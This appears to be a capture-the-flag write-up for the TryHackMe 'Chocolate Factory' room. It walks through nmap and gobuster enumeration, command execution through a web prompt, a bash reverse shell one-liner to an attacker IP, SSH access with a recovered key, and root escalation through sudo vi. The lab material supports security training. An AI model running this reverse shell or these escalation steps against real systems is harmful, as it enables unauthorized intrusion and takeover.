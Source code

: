 ```yaml
---
title: "ChocolateFactory TryHackMe"
date: "07-12-2021"
author: "Reda BELHAJ"
summary: "This room was designed so that hackers can revisit the Willy Wonka's Chocolate Factory and meet Oompa Loompa! A Charlie And The Chocolate Factory themed room, revisit Willy Wonka's chocolate factory!"
tags: ["Tryhackme", "Ctf", "Writeup"]
image: "/images/chocolateTHM/chocolate.jpg"
---
```


## Enumeration:
### Nmap Scan:
The first step of my enumeration was a scan with **nmap**. by the command:

```
nmap -sC -sV -n -Pn 10.10.48.21 --reason
```

|Port   |Service   |
|---|---|
|21/tcp   |FTP   |
|22/tcp   |SSH   |
|80/tcp   |HTTP   |
|100/tcp  |newacct?  |
|106/tcp  |pop3pw?  |
|109/tcp  |pop2?  |
|110/tcp  |pop3?  |
|111/tcp  |rpcbind?  |
|113/tcp  |ident?  |
|119/tcp  |nntp?  |
|125/tcp  |locus-map?  |

### Gobuster Scan:
I next decided to run a gobuster scan on the webserver to see if there were any interesting hidden directories, by the command:

```
gobuster dir -u http://10.10.48.21/  -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,xml,php 
```

The wordlist I choosed to run this scan can be found in [danielmiessler's repository](https://github.com/danielmiessler/SecLists).

After we've completed our scan, we see a new page : ***"home.php"*** that allow you to submit commands via a prompt, I used the ls command and then the cat command to find the key in a file called **key\_rev\_key**.

## Enter the key you found!

```
VkgXhFf6sAE*******************************
```

## Reverse Shell

```
bash -c 'exec bash -i &>/dev/tcp/10.8.174.180/4444 <&1'
```

## What is Charlie's password?

I was looking with (www-html) user permission 
I found the password of charlie in the ***validate.php*** file:

```
cn****
```

## Enter the user flag
and I also found an rsa key and i saved it in ***Desktop/rsa***

```
ssh charlie@10.10.48.21 -i rsa
```

```
cat /home/charlie/user.txt
```

## Privilege Escalation

I typed the famous:

```
sudo -l
```

and it returned:

```
User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi

```

So i run the command sa root and i typed 

```
:shell
```

And i tried to find the root flag by :

```
find / root.txt
```

and i found: /root/root.py and I typed the key that i found in the first question:

```
flag{cec5916*************************}
```

![root image](/images/chocolateTHM/root.jpg)